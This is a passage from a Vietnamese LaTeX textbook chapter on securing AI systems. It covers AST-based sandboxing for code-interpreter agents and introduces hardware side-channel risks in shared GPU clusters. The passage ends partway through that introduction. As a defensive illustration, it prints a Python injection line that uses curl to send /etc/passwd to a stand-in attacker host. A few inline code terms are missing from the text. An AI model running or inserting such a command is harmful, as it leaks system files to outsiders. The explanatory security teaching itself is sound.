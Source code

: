 \subsection{Cô Lập Môi Trường Bằng Cây Cú Pháp Tĩnh (AST Sandboxing)}
Khi xây dựng Agent phân tích dữ liệu (như Code Interpreter), mô hình phải tự sinh và chạy mã Python. Việc sử dụng lệnh  hoặc  thuần túy là tự sát về mặt an ninh mạng, bởi kẻ tấn công chỉ cần tiêm lệnh:
\begin{lstlisting}[language=Python]
import os; os.system("curl -d @/etc/passwd attacker.com")
\end{lstlisting}
Trước khi mã được phép biên dịch, ta bắt buộc phải phân tích cây cú pháp trừu tượng () của Python để loại bỏ mọi lời gọi hàm nguy hiểm ngay từ trong trứng nước.

---

\section{An Ninh Phần Cứng, Tấn Công Đối Kháng \& Quyền Riêng Tư Vi Phân (Hardware Enclaves, Adversarial Attacks \& Differential Privacy)}
\label{sec:ch12-hardware-dp-adversarial}

Khi bảo mật hệ thống AI đạt tới quy mô hạ tầng lớn của doanh nghiệp, chúng ta không thể chỉ dừng lại ở việc bảo vệ phần mềm hay rào chắn prompt ở tầng ứng dụng. Các rủi ro an ninh nghiêm trọng nhất thường bắt nguồn từ phần cứng vật lý chia sẻ (Hardware Side-Channels), sự thiếu tin cậy đối với nhà cung cấp đám mây (Untrusted Cloud Providers), các cuộc tấn công đối kháng tối ưu hóa theo gradient toán học, và nguy cơ rò rỉ dữ liệu cá nhân (PII) qua trọng số mô hình đã được huấn luyện.

\subsection{Tấn Công Kênh Kề Phần Cứng \& Đánh Cắp Bí Mật Trong Cụm GPU}
\label{subsec:hardware-side-channels}
Trong môi trường điện toán đám mây công cộng (\textit{Public Cloud}), các máy chủ AI thường vận hành dưới dạng chia sẻ tài nguyên (\textit{Multi-Tenancy}): Nhiều máy ảo (VM) hoặc container của các khách hàng khác nhau cùng chạy trên một socket CPU vật lý hoặc chia sẻ chung cụm GPU thông qua cơ chế vLLM dynamic batching hay NVIDIA Multi-Process Service (MPS). Hiện tượng này mở ra các bề mặt tấn công kênh kề (\textit{Side-Channel Attacks}):

